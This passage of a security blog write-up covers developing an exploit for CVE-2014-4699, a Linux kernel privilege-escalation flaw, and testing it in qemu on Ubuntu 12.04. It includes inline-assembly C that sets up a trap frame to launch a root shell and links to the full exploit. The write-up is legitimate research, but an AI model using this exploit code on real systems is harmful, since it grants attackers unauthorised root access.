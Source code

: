```
struct trap_frame tf;

void prepare_tf ( void ) {
    asm("movq %cs, %rax; pushq %rax;   popq tf+8;"
        "pushfq;     popq tf+16;"
        "pushq %rsp; popq tf+24;"
        "movq %ss, %rax; pushq %rax;  popq tf+32;");
    tf.eip = (uint64_t)&launch_shell;
    tf.esp -= 1024; // unused part of stack
}
```

Take in mind that the registers ``cs`` and ``ss`` cannot be pushed directly
into the stack.

If you don't understand what ``asm()`` stands for, don't
worry, it's black inline-assembly magic by ``gcc``.

Finally I'm going to try my version, take in mind that I'm using a system that
is not Ubuntu (this is important for the final of the post): I created a new user
named pippo and launched the new [exploit]({{ site.baseurl }}/public/code/CVE-2014-4699.c)

![weaponizing all the poc]({{ site.baseurl }}/public/images/cve-2014-4699-improvement.png)

as you can see someone has raised his privileges :)

## Trying in an Ubuntu installation

Now that we have a (hopefully) working exploit, we can try it in the intended target,
the first release of Ubuntu 12.04 that can be found at [old-release.ubuntu.com](http://old-releases.ubuntu.com/releases/12.04.1/);
once downloaded the ``ISO`` our dear ``qemu`` can be used again

```
$ qemu-system-x86_64 \
    -hda output/images/rootfs.ext2 \
    -m 2048 \
    -enable-kvm \
    -cdrom ubuntu-12.04-desktop-amd64.iso -net nic,model=virtio \
    -net user,hostfwd=tcp::2222-:22 -serial stdio
```

Be aware that ``ssh`` doesn't work and with less than 2048Mb of memory the proof of concept
cannot allocate the buffer for the payload.

With my big surprise the exploit crashes the kernel, without any error message
not even a kernel dump! after a little thinking this is obvious: message happens on the
virtual console (the terminal that can be accessed with ``Ctrl+Alt+F1`` on a normal
Linux installation).

From the virtual console this is what the dump looks like 

![virtualbox panic]({{ site.baseurl }}/public/images/virtualbox-crash.png)
